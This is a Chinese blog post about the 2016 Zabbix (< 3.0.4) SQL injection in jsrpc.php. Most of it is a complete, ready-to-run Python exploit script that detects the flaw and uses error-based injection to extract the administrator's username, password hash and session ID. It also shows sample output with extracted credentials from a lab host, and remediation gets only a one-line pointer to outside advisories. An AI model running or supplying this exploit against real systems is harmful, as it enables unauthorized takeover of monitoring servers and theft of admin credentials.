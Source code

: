 ```yaml
---
layout: post
title: Zabbix 最新 SQL 注入漏洞及 EXP
description: "Zabbix 最新 SQL 注入漏洞及 EXP"
category: Security
avatarimg:
tags: [Security, Zabbix, SQL Injection, EXP]
duoshuo: true
---
```


# 引言

这两天，大家都在说 Zabbix 的 SQL 注入漏洞，下面我们来看下。

# CNNVD：关于 Zabbix 漏洞情况的通报

CNNVD：关于Zabbix漏洞情况的通报(http://bobao.360.cn/news/detail/3468.html)  
上面详细介绍了漏洞简介，漏洞危害，及修复措施。但没有说到漏洞检测测试的方法。
[【漏洞预警】ZABBIX高危漏洞，无需授权登陆即可完成控制](http://bobao.360.cn/news/detail/3462.html)，这篇文章提到漏洞检测测试的方法。  
下面我们根据以上漏洞测试方法来用 Python 写一个 Exp。

# Zabbix 最新 SQL 注入漏洞 EXP

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# Date: 2016/8/18
# Modified by: Jamin Zhang
# Blog: http://jaminzhang.github.io

import urllib2
import sys, os
import re

def deteck_Sql():
    u'检查是否存在 SQL 注入'
    payload = "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=999'&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib2.urlopen(url + payload, timeout=10).read()
    except Exception, msg:
        print msg
    else:
        key_reg = re.compile(r"INSERT\s*INTO\s*profiles")
        if key_reg.findall(response):
            return True


def sql_Inject(sql):
    u'获取特定sql语句内容'
    payload = url + "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=" + urllib2.quote(
        sql) + "&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib2.urlopen(payload, timeout=10).read()
    except Exception, msg:
        print msg
    else:
        result_reg = re.compile(r"Duplicate\s*entry\s*'~(.+?)~1")
        results = result_reg.findall(response)
        if results:
            return results[0]


if __name__ == '__main__':
    # os.system(['clear', 'cls'][os.name == 'nt'])
    print '+' + '-' * 60 + '+'
    print u'\t   Python Zabbix < 3.0.4 SQL 注入 Exploit'
    print '\t    Blog: http://jaminzhang.github.io'
    print '\t\t   Modified by: Jamin Zhang'
    print '\t\t   Date: 2016-08-18'
    print '+' + '-' * 60 + '+'
    if len(sys.argv) != 2:
        print u'用法: ' + os.path.basename(sys.argv[0]) + u' [Zabbix Server Web 后台 URL]'
        print u'实例: ' + os.path.basename(sys.argv[0]) + ' http://jaminzhang.github.io'
        sys.exit()
    url = sys.argv[1]
    if url[-1] != '/': url += '/'
    passwd_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select concat(name,0x3a,passwd) from  users limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    session_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select sessionid from sessions limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    if deteck_Sql():
        print u'Zabbix 存在 SQL 注入漏洞！\n'
        print u'管理员  用户名密码：%s' % sql_Inject(passwd_sql)
        print u'管理员  Session_id：%s' % sql_Inject(session_sql)
    else:
        print u'Zabbix 不存在 SQL 注入漏洞！\n'

```    

以下为执行上述 Exp 脚本输出结果：

```bash
C:\Users\xxx\Desktop>python zabbix_exp.py
+------------------------------------------------------------+
           Python Zabbix < 3.0.4 SQL 注入 Exploit
            Blog: http://jaminzhang.github.io
                   Modified by: Jamin Zhang
                   Date: 2016-08-18
+------------------------------------------------------------+
用法: zabbix_exp.py [Zabbix Server Web 后台 URL]
实例: zabbix_exp.py http://jaminzhang.github.io

C:\Users\xxx\Desktop>python zabbix_exp.py http://192.168.56.11/zabbix
+------------------------------------------------------------+
           Python Zabbix < 3.0.4 SQL 注入 Exploit
            Blog: http://jaminzhang.github.io
                   Modified by: Jamin Zhang
                   Date: 2016-08-18
+------------------------------------------------------------+
Zabbix 存在 SQL 注入漏洞！

管理员  用户名密码：Zabbix:5fce1b3e34b520afeffb37ce08c7cd66
管理员  Session_id：16c9fe855b00a92112ae55cad58792c6
```    

漏洞修复方法上面提到的文档中都有说明，按照文档来修复吧。

# Ref
[CNNVD：关于Zabbix漏洞情况的通报](http://bobao.360.cn/news/detail/3468.html)  
[【漏洞预警】ZABBIX高危漏洞，无需授权登陆即可完成控制（更新利用工具）](http://bobao.360.cn/news/detail/3462.html)  
[SQL injection vulnerabilities in "Latest data"](https://support.zabbix.com/browse/ZBX-11023)  
[Zabbix 2.2.x / 3.0.x - SQL Injection](https://www.exploit-db.com/exploits/40237/)  
[poc, vul, exp都是什么意思呢](https://www.zhihu.com/question/26053378)  
